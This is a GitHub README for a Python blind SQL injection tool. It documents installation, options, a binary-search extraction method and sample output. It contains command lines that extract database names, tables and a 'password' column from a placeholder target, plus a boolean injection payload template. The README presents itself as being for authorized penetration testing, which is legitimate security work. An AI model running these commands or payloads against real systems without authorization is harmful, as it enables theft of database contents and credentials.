

# blind-sqli v1.0 — Boolean-Based Blind SQL Injection Toolkit


<p align="center">
  
</p>

A fast, automated **boolean-based blind SQL injection** tool with binary search optimization. Extracts database names, users, versions, tables, columns, and data — character by character — through true/false response analysis.

> ⚠️ **DISCLAIMER:** This tool is for **authorized penetration testing and educational purposes only**. Unauthorized use against systems you don't own or have explicit permission to test is **illegal**. The developer assumes no liability for misuse.

---

## Features

| Feature | Description |
|---------|-------------|
| 🔍 **Binary Search Extraction** | ~7 requests per character instead of ~95 with brute force |
| 🔄 **Adaptive Length Detection** | Progressive upper bound (16→32→64→128→256→512) to minimize requests |
| 🌐 **Session Pooling** | Reuses TCP/TLS connections via `requests.Session` for speed |
| 🔁 **Auto-Retry + Backoff** | Exponential backoff on connection failures instead of crashing |
| 🛡️ **Input Validation** | Regex validation on table/column names to prevent self-injection |
| 📊 **Rich Terminal UI** | Animated progress bars, styled panels, and result tables (via [Rich](https://github.com/Textualize/rich)) |
| 📁 **JSON Export** | Save extracted data to JSON with proper UTF-8 encoding |
| 🔧 **Flexible Configuration** | Custom headers, cookies, delay, timeout, GET/POST methods |

---

## Installation

```bash
git clone https://github.com/Toxpox/blind-sqli.git
cd blind-sqli
pip install -r requirements.txt
```

### Requirements

- Python 3.10+
- `requests` — HTTP library
- `rich` — Terminal UI (optional, falls back to plain text)

---

## Usage

### Basic — Extract Database Name

```bash
python blind_sqli.py -u "http://target.com/search" -t "in stock"
```

### Extract All Tables

```bash
python blind_sqli.py -u "http://target.com/search" -t "Welcome" --extract tables
```

### Extract Columns from a Table

```bash
python blind_sqli.py -u "http://target.com/search" -t "true" --extract columns --table users
```

### Extract Data

```bash
python blind_sqli.py -u "http://target.com/search" -t "true" --extract data --table users --column password
```

### Custom SQL Query

```bash
python blind_sqli.py -u "http://target.com/search" -t "true" --extract custom --query "SELECT secret FROM config LIMIT 1"
```

### With Authentication & Headers

```bash
python blind_sqli.py \
  -u "http://target.com/search" \
  -t "Welcome" \
  -m GET \
  -c "session=abc123; token=xyz" \
  -H "X-Forwarded-For: 127.0.0.1" \
  --extract tables \
  --delay 0.5 \
  --timeout 15 \
  --retries 5 \
  -o results.json \
  -v
```

---

## All Options

```
[>] Target:
  -u, --url              Target URL (required)
  -m, --method           HTTP method: GET or POST (default: POST)
  -p, --param            Vulnerable parameter name (default: search)
  -t, --true-string      String in response indicating TRUE (required)

[>] Auth & Headers:
  -c, --cookie           Cookie header value
  -H, --header           Extra header (repeatable)

[>] Extraction Mode:
  --extract              database | user | version | tables | columns | data | custom
  --table                Table name (for columns/data extraction)
  --column               Column name (for data extraction)
  --query                Raw SQL subquery (for custom extraction)

[>] Tuning:
  --delay                Seconds between requests (default: 0)
  --timeout              Request timeout in seconds (default: 10)
  --retries              Max retries on failure (default: 3)
  --no-verify            Disable TLS certificate verification

[>] Output:
  -o, --output           Save results to JSON file
  -v, --verbose          Enable debug logging
```

---

## How It Works

```
1. INJECT payload → ' OR LENGTH((SELECT DATABASE()))=N -- -
2. CHECK response → does it contain the "true-string"?
3. BINARY SEARCH  → narrow down the length (adaptive upper bound)
4. EXTRACT chars  → binary search ASCII value per position
5. REPEAT         → for each character until full string is extracted
```

### Binary Search Advantage

| Method | Requests per Character | 10-char String |
|--------|----------------------|----------------|
| Brute Force (linear) | ~95 | ~950 |
| **Binary Search** | **~7** | **~70** |

---

## Output Example

```
╭─── ⚙ ATTACK CONFIGURATION ───╮
│  🎯 Target      http://...    │
│  📡 Method      POST          │
│  💉 Parameter   search        │
│  ✅ True String  'in stock'   │
│  🔍 Extract     database      │
╰───────────────────────────────╯

  🔎 Detecting length: SELECT DATABASE()
  ✓ Length = 8

  ⠋ Extracting database ██████████░░░░░░ 62% secur

  ┌──────────────────┬──────────┐
  │ Key              │ Value    │
  ├──────────────────┼──────────┤
  │ database         │ security │
  └──────────────────┴──────────┘

╭────────────────────────────────────╮
│ Session complete. Stay ethical. 🛡️ │
╰────────────────────────────────────╯
```

---

## Project Structure

```
blind-sqli/
├── img/             # repository media files
│   └── Screenshot.png  # tool execution demo
├── blind_sqli.py       # main tool
├── requirements.txt    # python dependencies
├── README.md           # this file
└── LICENSE             # license
```

---

## Tested On

- MySQL / MariaDB targets (information_schema based)

> **Note:** For MSSQL or Oracle targets, you may need to adjust the SQL comment syntax and subqueries in the `PAYLOADS` and `QUERIES` dictionaries.

---

## License

This project is licensed under the GNU General Public License v3.0 — see the [LICENSE](LICENSE) file for details.

---

## Author

**Toxpox** — [github.com/Toxpox](https://github.com/Toxpox)

---

## Contributing

Pull requests are highly appreciated! Whether it's adding support for Oracle/MSSQL, improving the regex validation, or optimizing the binary search algorithm, feel free to fork the repo and submit a PR.

---
<p align="center">
  <b>⚡ Stay ethical. Hack responsibly. ⚡</b>
</p>
